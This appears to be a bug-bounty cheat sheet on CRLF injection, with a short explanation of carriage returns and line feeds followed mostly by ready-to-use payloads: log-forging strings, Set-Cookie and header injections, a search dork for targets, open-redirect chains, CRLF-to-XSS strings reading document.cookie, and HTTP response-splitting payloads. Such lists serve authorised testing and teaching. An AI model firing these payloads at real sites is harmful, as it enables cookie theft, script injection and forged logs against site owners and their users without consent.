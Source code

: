 ```yaml
---
description: Carriage Return // Line Feed Manipulation and Exploitation into Annihilatio
---
```


# CRLF

The notation of carriage returns  `(\r)` and  line feeds `(\n)` goes back to the earliest CLIs, where your text wouldn't be echoed onto the screen as you were typing, though the concept can be seen in typewriters; one creates a newline and the other returns the cursor to the left side of the terminal.  They are non-visible characters much like whitespace, backspace `(\b)` and linux's `[bell] (\a)` sound,  that are also seen in regular expressions.

#### **So how do you turn a newline character into a web attack?** 

This is done by manipulating either the headers or URL in a way not expected by the web app, usually to bypass the WAF and forcefully set headers in a way that would usually be blocked; though it has been used and chain to illicit XSS, Open Redirects, HTML injection, information disclosure and command execution. 

####  **Changing Log files via URL injection**

`10.10.10.99 - 04:25 - /index.php?p=hell`  
Image a log entry looks like the above.  With an injection of newline and carriage return characters, you could inject another line below, perhaps using the server's IP address, making the action look legitimate rather than suspicious.  
`10.10.10.99 - 04:25 - /index.php?p=hell%0d%0a 127.0.0.1 - 8:19 - /index.php?p=adminlogin&deleteserver=True`

The above would be rendered as:

`10.10.10.99 - 04:25 - /index.php?p=hell  
127.0.0.1 - 8:19 - /index.php?p=adminlogin&deleteserver=True`

CRLF Injections can also insert HTTP headers which may bypass security mechanisms \(XSS, for example\) and same-origin-policy and can be used to gain sensitiive information or CSRF tokens.   
Example:`http://xyz.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e`

**Dorks to find CRLF:**  
If these are being reflected, you may be in luck!   
`site: prog.com inurl:lang= or inurl:locale=`

**Payloads List:**

```http
/%%0a0aSet-Cookie:crlf=injection
/%0aSet-Cookie:crlf=injection
/%0d%0aSet-Cookie:crlf=injection
/%0dSet-Cookie:crlf=injection
/%23%0aSet-Cookie:crlf=injection
/%23%0d%0aSet-Cookie:crlf=injection
/%23%0dSet-Cookie:crlf=injection
/%25%30%61Set-Cookie:crlf=injection
/%25%30aSet-Cookie:crlf=injection
/%250aSet-Cookie:crlf=injection
/%25250aSet-Cookie:crlf=injection
/%2e%2e%2f%0d%0aSet-Cookie:crlf=injection
/%2f%2e%2e%0d%0aSet-Cookie:crlf=injection
/%2F..%0d%0aSet-Cookie:crlf=injection
/%3f%0d%0aSet-Cookie:crlf=injection
/%3f%0dSet-Cookie:crlf=injection
/%u000aSet-Cookie:crlf=injection

%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
Header-based test, site root
%0d%0aheader:header
%0aheader:header
%0dheader:header
%23%0dheader:header
%3f%0dheader:header
/%250aheader:header
/%25250aheader:header
/%%0a0aheader:header
/%3f%0dheader:header
/%23%0dheader:header
/%25%30aheader:header
/%25%30%61header:header
/%u000aheader:header
```

**CRLF chained with Open Redirect server misconfiguration**

_Note: This sometimes works. \(Discovered in some Yandex sites, was not exploitable from the root.\)_ `//www.google.com/%2f%2e%2e%0d%0aheader:header /www.google.com/%2e%2e%2f%0d%0aheader:header /google.com/%2F..%0d%0aheader:header`

**Twitter specific CRLF by @filedescriptor**

`%E5%98%8A%E5%98%8Dheader:header`

**CRLF Injection to XSS**

`%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a%0d%0a0%0d%0a/%2e%2e`

`java%0d%0ascript%0d%0a:alert(0)`   
****\(crlf injection to bypass javascript: being blacklisted\)  
  
`<iframe src=”%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(0)”>`  
iFrame with javascript URI payload. Line feeds \[CRLF\] obfuscate it.

**Response splitting on 302 Redirect, before Location header \(Discovered in DoD\)** `%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E`

**Response splitting on 301 code, chained with Open Redirect to corrupt location header**   
by @black2fan \(Facebook bug\)   
_Note: xxx:1 was used for breaking open redirect destination \(Location header\). Great example how of to escalate CRLF to XSS on a such, it would seem, unexploitable 301 status code._  
  
 `%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-  
Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr`

From [https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md)


